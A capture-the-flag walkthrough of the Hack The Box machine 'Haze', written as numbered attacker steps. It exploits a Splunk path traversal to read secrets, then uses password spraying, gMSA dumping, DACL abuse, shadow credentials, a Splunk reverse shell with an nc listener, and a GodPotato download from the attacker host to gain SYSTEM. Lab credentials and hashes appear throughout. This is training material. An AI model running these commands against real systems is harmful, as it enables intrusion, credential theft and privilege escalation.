VPN 10.10.11.61

**1.** INFO: Add IP to hosts file

**RUN:** **sudo nano /etc/hosts**

**2.** INFO: nmap

**RUN:** **sudo nmap -Pn -p- \--min-rate 2000 -sC -sV -oN nmap-scan.txt
haze.htb**

**RUN: sudo nmap -Pn -p- \--min-rate 5000 \--max-rate 10000 -T4 -sC -sV
-oN nmap-aggressive.txt haze.htb**





**Found: Host: DC01 and SERVICE: Splunk**

**3.** INFO: Add dc01.haze.htb to /etc/hosts

**RUN:** **sudo nano /etc/hosts**

**4.** INFO: SPLUNK PORT 8000 opens in FIREFOX http://haze.htb:8000.

NEXT: [Tried **http** and **https** on all SPLUNK PORTS]{.mark}

- <http://haze.htb:8000> opened a SPLUNK WEBSITE with LOGIN FIELD



- <https://haze.htb:8089> opened a WEBSITE with SPLUNK version!



**5.** INFO: Googled for SPLUNK POC. FOUND:
<https://github.com/bigb0x/CVE-2024-36991>

\- Downloaded FILE **CVE-2024-36991.py**



**6.** INFO: Found Users with PASSWORD HASHES

**TOOL-EXPLANATION:**

The exploit for CVE-2024-36991 is a tool that takes advantage of a path
traversal vulnerability in older versions of Splunk Enterprise on
Windows. It demonstrates the potential impact of this vulnerability by
attempting to read a sensitive system file.

**RUN:** **python CVE-2024-36991.py -u <http://haze.htb:8000>**



**[ALTERNATIVE:]{.mark}**

**RUN:** **curl -s
http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd**



The \$6\$ prefix specifically indicates that the password hash uses the
**SHA-512** algorithm.

**7.** INFO:
<https://www.sonicwall.com/blog/critical-splunk-vulnerability-cve-2024-36991-patch-now-to-prevent-arbitrary-file-reads>



RESULT:



Check SPLUNK Documentary. Default Installation Directory: C:\\Program
Files\\Splunk

<https://docs.splunk.com/Documentation/Splunk/9.4.2/Installation/InstallonWindowsviathecommandline>

**8.** INFO: Captured authentication.conf through Terminal
**https://github.com/HurricaneLabs/splunksecrets**

**Both paths work**

**RUN:** **curl -s
http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/system/local/authentication.conf**

**RUN: curl -s
<http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:/Program%20Files/Splunk/etc/system/local/authentication.conf>**



**https://docs.splunk.com/Documentation/Splunk/9.4.2/Installation/InstallonWindowsviathecommandline**

**RUN in Kali VM: curl -s
http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/auth/splunk.secret**



**9.** INFO: Download splunksecrects.py
<https://github.com/HurricaneLabs/splunksecrets.git>



**10.** INFO: Splunksecrets-tool: Get password

**-** 1^st^ **create splunk_secret.txt** and **paste the found PASSWORD
HASH from STEP 8** in it.



**RUN:** **splunksecrets splunk-decrypt \--splunk-secret
splunk_secret.txt \--ciphertext
\'\$7\$ndnVlcPhF4lQgPhPu7Yz1pvGm66NkoPPyCLn+qt1qyojs4QU+hkteemWQGuuTKDVlwB08pY=\'**

**FOUND Paul's PASSWORD**



**ERROR SOLUTION: If you cannot run the previous COMMAND, do
next.**

**Try Adding to PATH Manually (Again):**

Even if source \~/.bashrc is failing, you can try setting the PATH
variable directly in your current terminal session:

**RUN:** **export PATH=\"\$HOME/.local/bin:\$PATH\"**

**RERUN:** **splunksecrets splunk-decrypt \--splunk-secret
splunk_secret.txt \--ciphertext
\'\$7\$ndnVlcPhF4lQgPhPu7Yz1pvGm66NkoPPyCLn+qt1qyojs4QU+hkteemWQGuuTKDVlwB08pY=\'**

**11.** INFO: Take **USER** from **STEP 8** and **PASSWORD** from **STEP
10**

**RUN:** **crackmapexec smb haze.htb -u \"paul.taylor\" -p
\"Ld@p_Auth_Sp1unk@2k24\"**

**USER + PASSWORD is correct!**



**///-User-Enumeration-/////////////////////////////////////////////////////////////////////////**

**11.1** INFO: Get infos on **HOSTS, SERVICES, SHARES**

**RUN:** **crackmapexec smb haze.htb -u \"paul.taylor\" -p
\"Ld@p_Auth_Sp1unk@2k24\" \--rid-brute \| grep SidTypeUser**



**WinRM Login not possible with paul.taylor credentials!**

**12.** INFO: Try PASSWORD SPRAYING on all other USERS

**INFO:** PASSWORD SPRAYING means, to try the same PASSWORD on different
USER ACCOUNTS

-Create a FILE usernames.txt and paste all found USERS from STEP 11 in
it.



**12.1** INFO: PASSWORD SPRAYING worked for USER mark.adams

**RUN:** **crackmapexec smb haze.htb -u \"usernames.txt\" -p
\"Ld@p_Auth_Sp1unk@2k24\"**



**13.** INFO: Download JSON-files (in this case JSON-files are located in
ZIP-file)

**RUN:** **bloodhound-python -u \'mark.adams\' -p
\'Ld@p_Auth_Sp1unk@2k24\' -d haze.htb -dc dc01.haze.htb -ns 10.10.11.61
-c all \--zip**



**Error: Failed to get Kerberos TGT -\>** Fix Kerberos clock skew
issue.

**RUN:** **sudo** **ntpdate dc01.haze.htb**

**RUN:** **sudo timedatectl set-ntp true**

**Rerun:** **bloodhound-python -u \'mark.adams\' -p
\'Ld@p_Auth_Sp1unk@2k24\' -d haze.htb -dc dc01.haze.htb -ns 10.10.11.61
-c all \--zip**



**14.** INFO: Start

**RUN: sudo neo4j console (This starts the service)**

**-**Start **Bloodhound GUI**

**-**Import **20250430182035_bloodhound.zip into** GUI

Start Bloodhound: Login with credentials (previously configured, see
STEPS in CERTIFIED VM)

**User:** neo4j **Password:** as163452

**15.** INFO: Search for USER mark.adams

FOUND: USER mark.adams is MEMBER of <GMSA_MANAGERS@HAZE.HTB>



**Read GMSA Password**

**https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword**

**15.1** INFO: Try reading the Password

**Download:
https://github.com/micahvandeusen/gMSADumper/blob/main/gMSADumper.py**

**RUN:** **python gMSADumper.py -u \'mark.adams\' -p
\'Ld@p_Auth_Sp1unk@2k24\' -d haze.htb**

**RESULT: mark.adams DOESN'T have PERMISSION**



**Mark.adams belongs to ADMIN GROUP, so can add permission to himself!**

**IMPORTANT: GMSA is not a GROUP, but a SPECIAL ACCOUNT TYPE**

**15.2** INFO: Try POWERSHELL WinRM login with mark.adams

**RUN:** **evil-winrm -i 10.10.11.61 -u mark.adams -p
Ld@p_Auth_Sp1unk@2k24**

**15.3** INFO: Check Account type of **Haze-IT-Backup\$**

**RUN loggedin on POWERSHELL:** **Get-ADServiceAccount -Identity
Haze-IT-Backup\$ \| Select-Object Name, ObjectClass**



**15.4** INFO: Who has permission to see his password, ONLY DOMAIN
ADMINS!

**By running this command, you can see which users, groups, or computers
have the privilege to retrieve the password of the \"Haze-IT-Backup\$\"
account.**

**RUN loggedin on POWERSHELL:** **Get-ADServiceAccount -Identity
\"Haze-IT-Backup\$\" -Properties
PrincipalsAllowedToRetrieveManagedPassword**



**15.5** INFO: Mark.adams belongs to GMSA administrator group. Try to
mod the READABLE USER

**IMPORTANT: All commands, STEPS 15.6 & 15.7 have to be DONE FAST,
otherwise it will be switched back to DOMAIN ADMINS, see RESULT in STEP
15.5**

**RUN loggedin with POWERSHELL:** **Set-ADServiceAccount -Identity
\"Haze-IT-Backup\$\" -PrincipalsAllowedToRetrieveManagedPassword
\"mark.adams\"**

**RUN loggedin with POWERSHELL:** **Get-ADServiceAccount -Identity
\"Haze-IT-Backup\$\" -Properties
PrincipalsAllowedToRetrieveManagedPassword**



**15.6** INFO: Try reading Password, see STEP 15.2

**IMPORTANT: This command has to been run, so that STEP 19.1 works
out**

**RUN:** **python gMSADumper.py -u \'mark.adams\' -p
\'Ld@p_Auth_Sp1unk@2k24\' -d haze.htb**



**Even though I got the hash value, I couldn\'t connect to port 5985**

**16.** INFO: **Verify** that mark.adams has **WRITE PERMISSION**.

This views ACL ACCESS CONTROL LIST of Backup

**RUN loggedin with POWERSHELL:** **dsacls
\"CN=HAZE-IT-BACKUP,CN=MANAGED SERVICE ACCOUNTS,DC=HAZE,DC=HTB\"**



**17.** INFO: Since mark.adams is in **GMSA_MANAGERS group**, this value
can be modified to get the PASSWORD HASH of the BACKUP

**https://learn.microsoft.com/en-us/windows/win32/adschema/a-msds-groupmsamembership**

**18.** INFO: Take the 1^st^ HASH of STEP 15.7 for the following
command**

INFO: Get JSON-files 2^nd^ time

**RUN in Kali VM:** **bloodhound-python -u \'Haze-IT-Backup\$\'
\--hashes \':a70df6599d5eab1502b38f9c1c3fd828\' -d haze.htb -dc
dc01.haze.htb -ns 10.10.11.61 -c all \--zip**



- **Drag & Drop into Bloodhound GUI**

**19.** INFO: Check Haze-IT-Backup account

1^st^ Open Haze-IT-Backup account: Go to **OUTBOUND OBJECT CONTROL-\>
First degree object control**



You can see that the BACKUP user can change the owner of the SUPPORT
group, and the

SUPPORT group can change EDWARD\'s password and carry out a Shadow
Credential attack



**19.1** INFO: Change OWNER to Haze-IT-Backup

**RUN on Kali VM:** **bloodyAD \--host \"10.10.11.61\" -d \"haze.htb\"
-u \"Haze-IT-Backup\$\" -p \": a70df6599d5eab1502b38f9c1c3fd828\" set
owner SUPPORT_SERVICES Haze-IT-Backup\$**



**19.2** INFO: **Add FULL PERMISSION to yourself**

**DACL=Directonary Access Control List**

**RUN:** **impacket-dacledit -action write -rights FullControl
-principal \'Haze-IT-Backup\$\' -target-dn
\'CN=SUPPORT_SERVICES,CN=USERS,DC=HAZE,DC=HTB\' -dc-ip 10.10.11.61
\"haze.htb/Haze-IT-Backup\$\" -hashes
\':a70df6599d5eab1502b38f9c1c3fd828\'**

**IMPORTANT: If these ERROR appears**



**RERUN STEPS 15.6, 15.7 & 19.1:**

**RUN loggedin with POWERSHELL:** **Set-ADServiceAccount -Identity
\"Haze-IT-Backup\$\" -PrincipalsAllowedToRetrieveManagedPassword
\"mark.adams\"**

**??RUN in Kali VM: python gMSADumper.py -u \'mark.adams\' -p
\'Ld@p_Auth_Sp1unk@2k24\' -d haze.htb**

**RUN loggedin with POWERSHELL: Get-ADServiceAccount -Identity
\"Haze-IT-Backup\$\" -Properties
PrincipalsAllowedToRetrieveManagedPassword**



**RUN: bloodyAD \--host \"10.10.11.61\" -d \"haze.htb\" -u
\"Haze-IT-Backup\$\" -p \":a70df6599d5eab1502b38f9c1c3fd828\" set owner
SUPPORT_SERVICES Haze-IT-Backup\$**



**RESULT:**

**DACL=Directonary Access Control List**



**EXPLANATION:**

**It connects to the Domain Controller at 10.10.11.61 using the
Haze-IT-Backup\$ account and its NT hash. It then modifies the DACL of
the Active Directory object with the Distinguished Name
CN=SUPPORT_SERVICES,CN=USERS,DC=HAZE,DC=HTB. The modification grants the
Haze-IT-Backup\$ security principal the FullControl permission over this
SUPPORT_SERVICES object.**

**19.3** INFO: Add yourself to the group

**RUN:** **bloodyAD \--host \"10.10.11.61\" -d \"haze.htb\" -u
\"Haze-IT-Backup\$\" -p \": a70df6599d5eab1502b38f9c1c3fd828\" add
groupMember SUPPORT_SERVICES Haze-IT-Backup\$**



**If that runs into an ERROR:**

**REPEAT: 15.6, 15.7, 19.1, 19.2**

**///\-\--SHADOW
CREDENTIAL\-\--///////////////////////////////////////////////////////////////////**

**EXPLANATION:**

**The attacker manipulates the msDS-KeyCredentialLink attribute of a
target user account to associate a rogue security key (controlled by the
attacker) with that account. This allows the attacker to authenticate as
that user without needing their actual password.**

**20.** INFO: **Generate certificate**

DOWNLOAD: <https://github.com/ShutdownRepo/pywhisker>

**-H:**

**This parameter provides the NT hash of the password for the
Haze-IT-Backup\$ account. The -H flag commonly indicates that a password
hash is being used for authentication instead of a plain-text
password.**

**RUN:** **python pywhisker.py -d \"haze.htb\" -u \"Haze-IT-Backup\$\"
-H \' :a70df6599d5eab1502b38f9c1c3fd828\' \--target edward.martin
\--action add**



**21.** INFO: Use the generated certificate to REQUEST TGT

DOWNLOAD: <https://github.com/dirkjanm/PKINITtools>

**RUN:** **python gettgtpkinit.py -cert-pfx ../OT5uCVNC.pfx -pfx-pass
WhO0d2bAYwH7rqS2NBU8 haze.htb/edward.martin edward.ccache**



**22.** INFO: Set ENVIRONMENT VARIABLES

**RUN:** **export KRB5CCNAME=/home/kali/Desktop/Machines/Haze\\
VM/edward.ccache**



**23.** INFO: Request NTHash. **Take -key** from STEP 21

**RUN:** **python getnthash.py -key
3711d3aaee32265a0dbd3863d4db379205b7ea2b9aa02e800e6430f5ff2e95a6
haze.htb/edward.martin**



**24.** INFO: Connect through POWERSHELL. **Take the NTHash** from STEP
23

**RUN in Kali VM:** **evil-winrm -i 10.10.11.61 -u edward.martin -H
09e0b3eeb2e7a6b0d419e9ff8f4d91af**



**///\-\--PRIVILEGE
ESCALATION\-\--////////////////////////////////////////////////////////////////**

**25.** INFO: There is a BACKUP DIRECTORY in ROOT DIRECTORY, which
couldn't be accessed before!

**RUN in loggedin with POWERSHELL:** **cd C:/Backups**

**RUN in loggedin with POWERSHELL:** **dir**

**RUN in loggedin with POWERSHELL:** **cd Splunk**

**RUN in loggedin with POWERSHELL:** **dir**



After downloading, it is the **backup source code** of the website,
which is **different from the actual website content**.

**26.** INFO: Direct Download loggedin in WinRM

**RUN loggedin with POWERSHELL:** **download
splunk_backup_2024-08-06.zip
/home/kali/Desktop/Machines/splunk_backup_2024-08-06.zip**

**In Progress:**



**Finished:**



**RESULT:**



**27.** INFO: After downloading, it is the backup source code of the
website, which is different from the actual website content.

Here you can look directly for password-like strings, based
on **Splunk\'s** password format

**RUN in Kali VM: grep -rI \'\\\$1\\\$\' .**



**27.1** INFO: Then decrypt it with **splunksecrets**, note that
the **secret** here is in the backup code.

**RUN in Kali VM: splunksecrets splunk-decrypt -S splunk_secret.txt
\--ciphertext \'** **\$1\$YDz8WfhoCWmf6aTRkA+QqUI=\'**

**OR: splunksecrets splunk-decrypt \--splunk-secret splunk_secret.txt
\--ciphertext \'** **\$1\$YDz8WfhoCWmf6aTRkA+QqUI=\'**

**28.** INFO: RESULT: Decrypt Splunk

**RUN in Kali VM: splunksecrets splunk-decryp -S splunk_secret.txt
--ciphertext \$1\$YDz8WfhoCWmf6aTRkA+QqUI=\'**

**ERROR - COULDN'T DECRYPT IT SUCCESSFULLY**



**RESULT should be: Sp1unkadmin@2k24**

**29.** INFO: Login on <http://haze.htb:8000> with USER: **admin**
PASSWORD: **Sp1unkadmin@2k24**

**30.** INFO: Create Splunk BOUNCE SHELL

[**https://github.com/0xjpuff/reverse_shell_splunk**](https://github.com/0xjpuff/reverse_shell_splunk)

**31.** INFO: Mod IP-ADDRESS/PORT of rev.py (for UNIX systems). Upload
the FILE to get BOUNCE SHELL.

[**https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py**](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py)

**- Download rev.py (Enter Kali VM IP/PORT here if target is a UNIS
SYSTEM)**

**- Download run.bat**

**- Download run.ps1 (Kali VM IP/PORT has to be added here!)**

**- Download inputs.conf**

**- Add IP/PORT of Kali VM to the rev.py**

**- Create ALL folders and subfolders, like this:**



Pack the folder **reverse_shell_splunk** to a **TAR-file\**


**RUN in Kali VM: tar -cvzf reverse_shell_splunk.tgz
reverse_shell_splunk**



**RUN in Kali VM: mv reverse_shell_splunk.tgz reverse_shell_splunk.spl**



**32.** INFO: Start NETCAT NC LISTENER

**RUN in Kali VM: nc -lvnp 9999**

**IMPORTANT: Press ENTER button to get the line =\> PS
C:\\Windows\\system32\>**



**33.** INFO: Upload **reverse_shell_splunk.spl** to WEBSITE





**After pushing the BUTTON Upload, connection establishes instantly!**

**Press ENTER BUTTON to get the PS line!**

**WHOAMI**



**34.** INFO: View Permission of current USER

**RUN loggedin with POWERSHELL: whoami /all**

**WHOAMI /all**



**35.** INFO: Create Splunk BOUNCE SHELL

**[SeImpersonatePrivilege]{.underline}** is a privilege in Windows that
gives a process the ability to **\"Impersonation\".**\
Processes with this permission can impersonate the identity of the user
corresponding to a token after obtaining a token handle, but cannot
directly create a new token.

HOW TO use this group:

[**https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html?highlight=SeImpersonatePrivilege#seimpersonateprivilege**](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html?highlight=SeImpersonatePrivilege#seimpersonateprivilege)

- DOWNLOAD **GodPotato-NET4.exe** to Kali VM

[**https://github.com/BeichenDream/GodPotato/releases**](https://github.com/BeichenDream/GodPotato/releases)

**RUN loggedin with POWERSHELL: cd C:/**

**RUN loggedin with POWERSHELL: mkdir temp**

**RUN loggedin with POWERSHELL: dir**

**RUN loggedin with POWERSHELL: cd temp**



- **RUN in Kali VM: python3 -m http.server 80 (This starts the HTTP
  SERVER)**

- **RUN loggedin with POWERSHELL: wget
  [http://10.10.14.124/GodPotato-NET4.exe -O
  /temp/GodPotato-NET4.exe](http://10.10.14.124/GodPotato-NET4.exe%20-O%20/temp/GodPotato-NET4.exe)
  (uploads the file to SERVER)**

**Server:**

**Kali VM:**



**RUN in POWERSHELL: .\\GodPotato-NET4.exe -cmd "cmd /c whoami"**



**36.** INFO: Read is successful. Get ROOT.TXT. Additionally check:
whoami /priv

**RUN in POWERSHELL: ./GodPotato-NET4.exe -cmd \'cmd /c type
C:\\Users\\Administrator\\Desktop\\root.txt\'**


